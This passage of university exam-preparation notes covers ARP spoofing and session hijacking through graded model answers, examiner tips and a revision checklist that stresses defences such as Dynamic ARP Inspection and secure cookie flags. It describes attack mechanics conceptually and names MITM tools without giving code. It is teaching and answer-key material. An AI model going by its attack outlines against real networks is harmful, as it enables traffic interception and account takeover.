**(b)** *Explain four defensive techniques to mitigate ARP Spoofing in a corporate LAN.* **[7 Marks]**

**Model Solution (7 Marks):**
1. **Static ARP entries** for gateway and critical servers — eliminates dynamic poisoning. **[1.5 Marks]**
2. **Dynamic ARP Inspection (DAI)** on managed switches cross-checks with DHCP Snooping binding database. **[1.5 Marks]**
3. **802.1X port-based authentication** — only authorized devices can join the LAN. **[1.5 Marks]**
4. **Network segmentation / VLANs** — limits broadcast domain, contains compromise. **[1 Mark]**
5. **Encryption (IPsec, HTTPS, SSH)** — even if frames are diverted, payload is unreadable. **[1 Mark]**
6. **IDS / IPS rules** for gratuitous ARP anomaly detection. **[0.5 Marks]**

> [!TIP]
> Mentioning a *layered* approach scores higher than listing four isolated techniques.

---

### Question B1 — Choice B (Alternative to B1)
**[KTU University Exam — Dec 2023 | CO2 \& CO3 | Apply / Analyze | 14 Marks]**

**(a)** *Describe the TCP three-way handshake and identify the weakness that makes TCP session hijacking possible.* **[7 Marks]**

**Model Solution (7 Marks):**
- State diagram of `SYN → SYN-ACK → ACK`. **[2 Marks]**
- Initial sequence numbers $ISN_c$ and $ISN_s$. **[1 Mark]**
- Transition into `ESTABLISHED` state. **[1 Mark]**
- **Weakness:** After the handshake, TCP provides **no endpoint authentication** — any host knowing the next $seq$/$ack$ can inject. **[2 Marks]**
- Legacy RFC 793 ISN formula and predictability. **[1 Mark]**

---

**(b)** *Illustrate application-level session hijacking via cookie theft. What flags can prevent such attacks?* **[7 Marks]**

**Model Solution (7 Marks):**
- HTTP cookie flow: server issues `Set-Cookie: SESSIONID=...`, browser returns it. **[1 Mark]**
- Attacker sniffs unencrypted HTTP via prior MITM (e.g., ARP Spoof). **[2 Marks]**
- Replay attack using `requests`/browser extension. **[1 Mark]**
- **Defensive flags:** **[3 Marks]**
  - `HttpOnly` — blocks JavaScript access (mitigates XSS-based theft).
  - `Secure` — cookie only sent over HTTPS.
  - `SameSite=Strict` — mitigates CSRF-driven session abuse.
- Mention **session ID regeneration on login** as bonus. **[bonus 0.5 Mark]**

> [!WARNING]
> **Pitfall Callout:** Students frequently forget `SameSite`. Listing *only* `HttpOnly` and `Secure` will earn **2 of 3 marks** for the flag question. Examiner's Note: the third mark is for `SameSite` or equivalent (HSTS, token binding).

---

## 5.3 KTU Examiner's Valuation Warning

> [!WARNING]
> **Top 5 ways students lose marks in this topic:**
> 1. **Confusing ARP with DNS Spoofing** — ARP is Layer 2/IP-to-MAC; DNS is Layer 7/name-to-IP. Examiners deduct 1–2 marks for this.
> 2. **Forgetting IP forwarding** in the MITM walk-through — 1 mark lost.
> 3. **Writing `Set-Cookie` without explaining session regeneration** — 1 mark lost in B-parts.
> 4. **Not stating MAC and IP bit-lengths** ($48$ and $32$ bits) when defining ARP — 0.5 mark penalty.
> 5. **Skipping the diagram** in B-parts — diagrams are mandatory and worth 2 marks on average.

---

## 5.4 Quick Numerical Practice (3-Mark Variants)

| # | Question | Answer |
|---|----------|--------|
| 1 | State the size in bits of an IPv4 address and a MAC address. | $32$ bits and $48$ bits |
| 2 | What is the opcode of an ARP Reply in decimal? | $2$ |
| 3 | On Windows, how long does a dynamic ARP entry live by default? | $300$ seconds |
| 4 | Give the default TCP port of HTTPS. | $443$ |
| 5 | Name the modern replacement for RFC 793 ISN generation. | CSPRNG (e.g., Linux `secure_seq()`) |

---

## 5.5 Topic Recap & Important Things to Remember

> [!IMPORTANT]
> **Rapid Revision Checklist — Print This Before Exam**

**Core Definitions**
- **ARP:** Layer-2 protocol mapping $IP \leftrightarrow MAC$ (RFC 826).
- **ARP Spoofing:** Forged ARP Reply causing cache corruption and MITM.
- **Session Hijacking:** Theft/prediction of an active session token to impersonate a user.
- **MITM:** Attacker silently relays/modifies traffic between two parties who believe they are talking directly.

**Operational Mechanics**
- ARP is **stateless, unauthenticated, and accepts unsolicited replies**.
- A successful ARP Spoof requires **poisoning both ends** (victim AND gateway) for full bidirectional MITM.
- TCP session hijacking depends on **sequence number knowledge** + **victim desynchronization**.
- HTTP session hijacking depends on **cookie confidentiality** — `HttpOnly`, `Secure`, `SameSite` flags protect them.

**Key Numbers (memorize verbatim)**
- $L_{ip} = 32$ bits
- $L_{mac} = 48$ bits
- $T_{cache}^{Win} = 300$ s
- $T_{cache}^{Lin} = 60$ s
- $Op_{reply} = 2$
- $MAC_{broadcast} = FF:FF:FF:FF:FF:FF$
- $Port_{HTTP} = 80$, $Port_{HTTPS} = 443$

**Defense-in-Depth Stack**
- L2: Static ARP, DAI, 802.1X
- L3/IP: IPsec, IP forwarding disabled when suspicious
- L4/TCP: Modern ISN (CSPRNG), TLS
- L7/HTTP: HTTPS, `HttpOnly`+`Secure`+`SameSite` cookies, session ID regeneration, short timeouts
- Org: VLAN segmentation, IDS/IPS, security awareness training

**Tool / Keyword Vocabulary (Use in Answers)**
- `ettercap`, `arpspoof`, `bettercap`, `wireshark`, `scapy`, `Firesheep`, `Cain \& Abel` (escape the ampersand!)
- `Dynamic ARP Inspection`, `DHCP Snooping`, `802.1X NAC`
- `ZeuS`, `SpyEye` (MITB examples)

**Likely Board Question Triggers**
- "Explain ARP Spoofing with diagram." (7 marks)
- "How does session hijacking differ from session fixation?" (5 marks)
- "List 4 countermeasures against MITM." (4 marks)
- "What is the role of TCP sequence numbers in session hijacking?" (5 marks)
- "Why is HTTP vulnerable to session hijacking?" (3 marks)

> [!NOTE]
> **End of Module 3 Topic Note — ARP Spoofing and Session Hijacking.** Cross-reference with the companion topics **DNS Spoofing**, **Sniffing (Wireshark)**, and **Firewalls/IDS** for full Module 3 coverage.
<!-- SECTION_5_END -->
